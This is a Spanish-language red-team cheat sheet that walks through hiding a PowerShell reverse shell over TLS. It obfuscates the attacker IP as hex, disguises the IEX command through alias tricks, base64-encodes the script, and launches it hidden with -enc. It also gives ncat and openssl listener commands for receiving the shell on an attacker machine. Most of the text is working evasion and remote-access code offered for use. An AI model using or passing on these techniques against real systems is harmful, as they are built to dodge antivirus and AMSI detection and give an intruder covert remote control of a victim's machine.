 ## **TCP Reverse Shell mediante TLS en Powershell**

Todos los agradecimientos a estos dos enlaces, es puro virtuosismo lo que hay ahí, esto no es más que un copia y pega:

https://0xdarkvortex.dev/index.php/2019/07/17/red-team-ttps-part-1-amsi-evasion/

https://github.com/3v4Si0N/HTTP-revshell

**1.- Ofuscar la IP**

Básicamente se trata de crear los valores en hexadecimal:

```
printf "%x,%x,%x,%x\n" 192 168 11 34
c0,a8,b,22
```

```powershell
$px = "c0","a8","b","22"
$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
```

**2.- Ofuscar la cadena IEX**

Establecemos un alias con los valores de una cadena aleatoria, extrayendo la cadena con los índices del array:

```powershell
$x = "new-exercise"
Set-alias $x  ($x[$true-4] + ($x[[byte]("0x" + "FF") - 263]) + $x[[byte]("0x" + "ba") - 193]) .'
```
Aquí otro método que he visto, pero la idea es utilizar el tuyo propio:
```powershell
[array]$shurmano = "I","n","t","E","r","n","e","X" ;
set-alias new-exercise $($shurmano | foreach { if ($_ -cmatch '[A-Z]' -eq $true) {$x += $_}}; $x)
```
**3.- Pasar el script de powershell a base64**
```
cat tlsrevshell.ps1 | iconv -f UTF8 -t UTF16LE | base64 -w 0
```
**4.- Ejecutarlo desde consola PS **
```
powershell -noP -sta -w 1 -enc ENC64SCRIPT
```

Como muestra de estás técnicas os dejo el [TCP reverse shell con TLS](https://github.com/g4ngli0s/chuletas/blob/master/bypasspowershell/tlsrevshell.ps1), como listener en vuestra máquina kali podeís usar ncat u openssl:

```
ncat --allow <IP> -vnl <PORT> --ssl
```
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

